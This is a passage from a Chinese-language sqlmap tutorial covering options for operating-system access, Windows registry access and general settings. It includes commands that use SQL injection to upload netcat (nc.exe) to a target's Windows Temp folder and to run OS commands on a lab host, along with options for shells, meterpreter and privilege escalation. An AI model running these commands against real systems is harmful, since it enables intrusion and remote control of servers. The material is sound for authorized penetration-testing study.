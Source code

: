 在kali中将/software/nc.exe文件上传到C:/WINDOWS/Temp下：

python sqlmap.py -u"http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write"/software/nc.exe" --file-dest "C:/WINDOWS/Temp/nc.exe" -v1

### 1.3.13 操作系统访问

这些选项可以用于访问后端数据库管理系统的底层操作系统

>   --os-cmd=OSCMD  执行操作系统命令（OSCMD）
>
>   --os-shell     交互式的操作系统的shell
>
>   --os-pwn     获取一个OOB shell，meterpreter或VNC
>
>   --os-smbrelay    一键获取一个OOBshell，meterpreter或VNC
>
>   --os-bof      存储过程缓冲区溢出利用
>
>   --priv-esc     数据库进程用户权限提升
>
>   --msf-path=MSFPATH MetasploitFramework本地的安装路径
>
>   --tmp-path=TMPPATH 远程临时文件目录的绝对路径

linux查看当前用户命令：

sqlmap.py -u"http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --os-cmd id -v1

### 1.3.14 Windows注册表访问

这些选项可以被用来访问后端数据库管理系统Windows注册表

>   --reg-read     读一个Windows注册表项值
>
>   --reg-add      写一个Windows注册表项值数据
>
>   --reg-del      删除Windows注册表键值
>
>   --reg-key=REGKEY  Windows注册表键
>
>   --reg-value=REGVAL Windows注册表项值
>
>   --reg-data=REGDATA Windows注册表键值数据
>
>   --reg-type=REGTYPE Windows注册表项值类型

### 1.3.15 一般选项

这些选项可以用来设置一些一般的工作参数

>   -s SESSIONFILE   保存和恢复检索会话文件的所有数据
>
>   -t TRAFFICFILE   记录所有HTTP流量到一个文本文件中
>
>   --batch      从不询问用户输入，使用所有默认配置。
>
>   --binary-fields=.. 结果字段具有二进制值(e.g."digest")
>
>   --charset=CHARSET  强制字符编码
>
>   --crawl=CRAWLDEPTH 从目标URL爬行网站
>
>   --crawl-exclude=.. 正则表达式从爬行页中排除
>
>   --csv-del=CSVDEL  限定使用CSV输出 (default",")
>